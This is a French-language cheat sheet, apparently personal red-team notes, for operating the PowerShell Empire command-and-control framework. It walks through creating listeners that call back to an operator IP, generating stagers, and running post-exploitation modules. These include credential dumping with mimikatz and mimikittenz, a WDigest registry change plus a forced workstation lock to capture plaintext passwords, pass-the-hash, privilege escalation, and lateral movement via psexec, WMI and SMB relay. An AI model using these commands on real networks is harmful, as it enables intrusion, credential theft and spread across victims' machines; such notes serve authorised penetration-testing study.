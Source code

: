 ## Empire

ps-empire serveur
ps-empire client

# listeners context
listeners
help
back

# créer un listener
uselistener <wait> 

* killdate - temp de vie du listener
* stagingkey -  key pour chiffrer les communications entre l'agent et le listener 
* workinghours - limite le temps d'activité du listener
* defaultdelay - specifie le delais de reponse ( les agents ne sont pas synchronisés)
 par defaut 5s (l'agent demande des renseignement au listener) , IP deja mise, port 80

set DefaultDelay 1 
set Port 9999 
set Host http://<IP>:9999 
execute 
listeners 

# deployer un agent
usestager <wait> 
options 
set Listener <listener> 
generate 


# active agent
agents 
help 
rename XXXX agent1 
list 
 
interact agent1 
help 
info 

# modules
usemodule <tab> 
	*  code_execution: These modules let you run code, including Metasploit payloads, on the target box. collection: These modules let you pillage information from the target machine. 
	* credentials: These modules let you plunder usernames, hashes, and passwords from the target. 
	* exploitation: These modules let you exploit additional targets. 
	* lateral_movement: These modules let you pivot to other target machines. 
	* management: These modules are associated with system administration functions on the target. 
	* persistence: These modules will make your agent survive across user logoff or reboot. 
	* privesc: These modules provide privilege escalation exploits. 
	* recon: These are the reconnaissance modules. 
* situational_awareness: These modules pull information from the target environment, including scanners and related tools. 
    * trollsploit : troll, play audio, pop dialog 
    
    
usemodule <wait> 
execute 
view 1


# pour le shell
shell <commande>
view 2

# créer un nouveau agent 
psinject http <3304(pid)>

# import script
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns
jobs

# pour finir
agents 
kill all
y
listeners 
kill all
exit


## modules
situational_awarness/network/powerview/get_user
situational_awarness/network/powerview/get_computer
situational_awarness/network/powerview/find_localadmin_access #connexion sur tous les hosts 
check : shell dir \\<host>\C$


# hash
	* usemodule powershell/credentials/powerdump
	* mimikittenz
	** scriptimport /opt/mimikittenz/Invoke-mimikittenz.ps1
	** scriptcmd Invoke-mimikittenz
	* mimikatz
	** changer la cle de registre pour avoir les mdp dans LSASS # +besoin que le user se reconecte, ici on verouille l'ordinateur pour le pas redemarer 
	** shell reg add
	** HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredentials /t REG_DWORD /d 1 /f
	** shell rundll32.exe user32.dll,LockWorkStation

# PTH
	* credentials/mimikatz/pth
	
# privesc
	* usemodule powershell/privesc/ask

	* If you are already admin, you can attempt to use the classic getsystem module
	* usemodule privesc/getsystem

# lateral mouvement
	* inveigh_relay 					#smbrelay
	* invoke_executemsbuild 	#execute msbild local/remote
	* invoke_psremoting 			#execute stager on host using psremoting
	* invoke_sqloscmd 				# stager on host using xp_cmdshell
	* inkoke_wmi 						#stager on wmi 
	* jenkins_script_console
	* invoke_dcom #MMC20
	* invoke_psexec
	* invoke_smbexec
	* invoke_sshcommand
	* new_gpo_immediate_task
